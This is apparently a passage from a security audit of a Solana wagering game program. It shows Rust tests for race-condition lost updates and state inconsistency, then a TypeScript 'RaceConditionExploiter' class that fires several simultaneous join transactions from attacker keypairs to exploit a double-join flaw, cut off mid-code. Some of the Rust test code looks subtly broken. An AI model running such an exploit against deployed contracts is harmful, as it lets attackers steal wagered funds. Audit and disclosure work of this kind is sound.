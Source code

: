 ```rust

        // Due to race conditions, not all increments are applied
        // Final count may be less than expected
        let final_kills = game_session.team_a.player_kills[0];

        // Should be initial_kills + 10, but might be less due to race
        assert!(final_kills < initial_kills + 10); // Race condition lost updates
    }

    #[test]
    fn test_state_inconsistency_race() {
        let mut game_session = create_test_game_session();

        // Concurrent operations causing state inconsistency
        let operations = vec![
            || { game_session.status = GameStatus::InProgress; },
            || { game_session.status = GameStatus::Completed; },
            || { game_session.team_a.players[0] = Pubkey::new_unique(); },
            || { game_session.team_a.players[0] = Pubkey::default(); },
        ];

        // Execute operations concurrently (simulated)
        for operation in operations {
            operation();
        }

        // Game state is now inconsistent
        // Status and player data don't match
        validate_game_state_consistency(&game_session).expect_err("State should be inconsistent");
    }
}
```

### Real-World Attack Implementation
```typescript
class RaceConditionExploiter {
    async exploitDoubleJoin(sessionId: string): Promise<void> {
        // 1. Monitor for games with 1 slot remaining
        const gameSession = await this.getGameSession(sessionId);

        if (this.countEmptySlots(gameSession) === 1) {
            // 2. Submit multiple join transactions simultaneously
            const joinPromises = [];

            for (let i = 0; i < 5; i++) {
                const joinTx = this.wagerProgram.methods
                    .joinUser(sessionId, 0)
                    .accounts({
                        gameSession: this.getSessionPDA(sessionId),
                        user: this.attackerKeypairs[i].publicKey,
                        userTokenAccount: this.attackerTokenAccounts[i],
                        vault: this.getVaultPDA(sessionId),
                        tokenProgram: TOKEN_PROGRAM_ID,
                        systemProgram: SystemProgram.programId,
                    })
                    .signers([this.attackerKeypairs[i]])
                    .rpc();

                joinPromises.push(joinTx);
            }

            // 3. Execute all joins simultaneously
            const results = await Promise.allSettled(joinPromises);
```